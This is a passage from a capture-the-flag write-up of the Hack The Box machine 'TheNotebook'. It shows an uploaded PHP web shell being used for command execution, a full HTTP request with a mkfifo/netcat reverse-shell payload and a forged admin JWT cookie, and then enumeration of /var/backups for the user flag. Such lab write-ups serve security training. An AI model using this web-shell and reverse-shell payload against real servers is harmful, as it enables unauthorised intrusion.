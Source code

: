   ![HTB TheNotebook - Uploaded Files](https://i.imgur.com/aCdIwnN.png){: .align-center}

  - Adding a simple query string at its end, as expected by our simple web shell, to run the id command (`cmd=id`) and we could confirm that we have code execution in the server :smiley:

  ![HTB TheNotebook - Simple WebShell](https://i.imgur.com/eSH3rQY.png){: .align-center}

  - To get a reverse shell, configured a listener and then sent another payload, this time to get a TCP connection from the server, which worked as expected :smile:

```http
GET /1e49f8a12603040cc99b2dd39f423b09.php?cmd=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.10.10+4443+>/tmp/f HTTP/1.1
Host: 10.10.10.230
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: auth=eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6Imh0dHA6Ly8xMC4xMC4xNC4xMTY6NzA3MC9wcml2S2V5LmtleSJ9.eyJ1c2VybmFtZSI6Impkb2UiLCJlbWFpbCI6Impkb2VAZHVtbXkuY29tIiwiYWRtaW5fY2FwIjoxfQ.WMokYjjMMECoF2UWM2fcMVcR99X34dHXwuj8nXqBlQWOnwC1NdBoO6PD-ZHjAZ5p969Jbf4XnRKZedAAokxvIgG2ymYNV1F8CcDzDfuHlMlk_CiYGvimoJWgvA3S-24KDql2bRrvJgoPbKKjqJ5Ir7mWZF1USGSwsttc9Ff1qniFAWTJ8CXkTLtfR498_rY_uIJfBdvqTbi3C9fWJcnSwjCGROkEGxCYve4cf5rjFvm_D_G5-S8oWkXICYAFp5lMQ288E0qGQp04nD16H1v2YzOROolNDeqMVB2uaI060xjKEA8mv6taa095q7rEqzpzXSj21Uq2-xcZonk0LI1-yg; uuid=d3f32390-d9e4-4eb0-b1a0-788b54fd8278
Connection: close
```

## User flag

After obtaining the reverse shell, started enumerating the box with the account `www-data`, which is the one used by the web server execution. The following items stood out from the others listed during `linpeas.sh` execution:

- Users with console and their permissions

  - `noah:x:1000:1000:Noah:/home/noah:/bin/bash`
  - `root:x:0:0:root:/root:/bin/bash`

- Existence of `/var/backups` folder, also mentioned in the previously seen notes.

As this was previously mentioned, started by inspecting the contents of `/var/backups`, where most of the files we couldn't read except for the `home.tar.gz`, which could have some interesting information.

```bash
www-data@thenotebook:/var/backups$ ls -la
total 696
drwxr-xr-x  2 root root     4096 Jun 11 06:26 .
drwxr-xr-x 14 root root     4096 Feb 12 06:52 ..
-rw-r--r--  1 root root    51200 Jun 11 06:25 alternatives.tar.0
-rw-r--r--  1 root root    33252 Feb 24 08:53 apt.extended_states.0
-rw-r--r--  1 root root     3609 Feb 23 08:58 apt.extended_states.1.gz
-rw-r--r--  1 root root     3621 Feb 12 06:52 apt.extended_states.2.gz
-rw-r--r--  1 root root      437 Feb 12 06:17 dpkg.diversions.0
-rw-r--r--  1 root root      172 Feb 12 06:52 dpkg.statoverride.0
-rw-r--r--  1 root root   571460 Feb 24 08:53 dpkg.status.0
-rw-------  1 root root      693 Feb 17 13:18 group.bak
-rw-------  1 root shadow    575 Feb 17 13:18 gshadow.bak
-rw-r--r--  1 root root     4373 Feb 17 09:02 home.tar.gz
-rw-------  1 root root     1555 Feb 12 06:24 passwd.bak
-rw-------  1 root shadow   1024 Feb 12 07:33 shadow.bak
```
